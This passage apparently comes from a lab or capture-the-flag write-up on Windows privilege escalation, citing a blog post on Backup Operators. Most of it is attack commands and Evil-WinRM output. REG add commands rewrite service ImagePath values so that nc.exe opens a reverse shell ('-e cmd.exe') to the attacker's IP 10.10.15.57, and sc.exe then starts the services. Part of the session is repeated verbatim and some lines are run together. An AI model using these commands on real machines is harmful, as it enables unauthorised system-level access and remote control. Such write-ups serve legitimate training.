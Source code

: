 [https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/](https://decoder.cloud/2018/02/12/the-power-of-backup-operatos/)

```text
REG add HKLM\System\CurrentControlSet\Services\WpnUserService_64360ac /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
```

Upload nc.exe, then start the service with `sc.exe start <service>`.

```text
*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
[SC] StartService: OpenService FAILED 1060:

The specified service does not exist as an installed service.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\VSS /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /fThe operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start VSS
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start WerSvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\Wecsvc /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start Wecsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

*Evil-WinRM* PS C:\Users\jorden\Documents> REG add HKLM\System\CurrentControlSet\Services\wbengine /v ImagePath /t REG_EXPAND_SZ /d "cmd.exe /c C:\Users\jorden\Documents\nc.exe 10.10.15.57 12345 -e cmd.exe" /f
The operation completed successfully.

*Evil-WinRM* PS C:\Users\jorden\Documents> sc.exe start wbengine
```